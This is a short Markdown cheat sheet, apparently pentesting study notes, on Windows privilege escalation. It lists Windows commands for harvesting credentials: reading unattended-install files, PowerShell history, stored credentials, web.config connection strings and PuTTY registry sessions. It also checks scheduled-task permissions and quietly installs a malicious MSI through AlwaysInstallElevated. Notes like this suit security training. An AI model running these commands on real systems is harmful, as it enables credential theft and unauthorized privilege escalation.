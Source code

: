 # Looking for Passwords:
## unattended Windows Installations:
	+ C:\Unattend.xml
	+ C:\Windows\Panther\Unattend.xml
	+ C:\Windows\Panther\Unattend\Unattend.xml
	+ C:\Windows\system32\sysprep.inf
	+ C:\Windows\system32\sysprep\sysprep.xml
## Powershell History:
```ps1
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Stored Creds:
```ps1
# list the sotred credentials
cmdkey /list
# run command as another user:
runas /savecred /user:admin cmd.exe
```
## IIS Configurations:
```ps1
# looking for "web.config"
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
# quickly find database Creds:
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Creds from "PuTTy"
```ps1
reg query HKEY_CURRENT_USER\Software\<creatorOFputty>\PuTTY\Sessions\ /f "Proxy" /s
```


# Scheduled Tasks:
```ps1
# list of Scheduled Tasks:
schtasks
# for more details on specific task:
schtasks /query /tn vulntask /fo list /v
# check permissions on its binary:
icacls c:\Path\to\executableFile
get-acl c:\Path\to\executableFile
```
# Always Install Elevated:
+ check registry:
	+ C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
	+ C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer	
+ install package from commandLine:
	+ C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

